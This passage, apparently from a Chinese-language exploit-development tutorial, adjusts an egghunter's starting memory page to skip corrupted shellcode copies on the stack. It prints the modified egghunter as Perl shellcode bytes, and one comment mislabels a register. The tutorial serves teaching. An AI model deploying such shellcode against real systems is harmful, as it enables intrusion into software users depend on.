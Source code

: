 这一次，偏移量将 shellcode 推到了我们的缓冲区中足够远的地方，因此没有损坏的副本被放置在栈上，只剩下堆中的完整副本。

#### 更改 Egghunter 的起始内存页面

如果我们可以预测损坏的副本将驻留在哪里，我们可以简单地告诉 Egghunter 注意这些内存地址。这可以通过多种方式完成，但对于这个演示，我将使用现有的寄存器和 ADD 指令。 

从之前的 mona 搜索中，我们知道两个损坏的副本都位于 0x0012F1AC 和 0x0012F31C，所以我们需要做的就是在这些地址之后启动我们的 Egghunter。为此，我们需要在加载第一个内存页之前更改 ebx 的值。

按原样启动漏洞利用并在 Egghunter 例程的最开始暂停执行以检查堆栈。查看ESP

![14](part5/14.png)

我们需要从 0x0012F31C 开始。从中减去 ESP，你会得到，0x190 或 十进制的 400 。因此，我们可以使用 EDX 加载 ESP，然后将 400+ 添加到 EDX 以将起始内存页面推送到损坏的 shellcode 之外。 Egghunter 的更新版本如下。注意我必须分解 ADD EDX 指令以避免 NULL byte 。

```assembly
my $egghunter =           "\x89\xe2"; # mov ebx, esp
 $egghunter = $egghunter . "\x83\xc2\x7d" x 4; # add edx, 125 (x4)
 $egghunter = $egghunter . "\x66\x81\xCA\xFF\x0F"; # or dx,0x0fff
 $egghunter = $egghunter . "\x42"; # inc edx by 1
 $egghunter = $egghunter . "\x52"; # push edx to t
 $egghunter = $egghunter . "\x6A\x43"; # push byte +0x43
 $egghunter = $egghunter . "\x58"; # pop eax
 $egghunter = $egghunter . "\xCD\x2E"; # int 0x2e
 $egghunter = $egghunter . "\x3C\x05"; # cmp al,0x5
 $egghunter = $egghunter . "\x5A"; # pop edx
 $egghunter = $egghunter . "\x74\xEF"; # jz 0x0
 $egghunter = $egghunter . "\xB8\x50\x57\x4e\x44"; # mov eax,PWND
 $egghunter = $egghunter . "\x8B\xFA"; # mov edi,edx
 $egghunter = $egghunter . "\xAF"; # scasd
 $egghunter = $egghunter . "\x75\xEA"; # jnz 0x5
 $egghunter = $egghunter . "\xAF"; # scasd
 $egghunter = $egghunter . "\x75\xE7";#jnz 0x5
 $egghunter = $egghunter . "\xFF\xE7"; #jmp edi
```

这是执行新的 mov/add 指令后的 EDX（以及我们新的起始内存页面）

![15](part5/15.png)
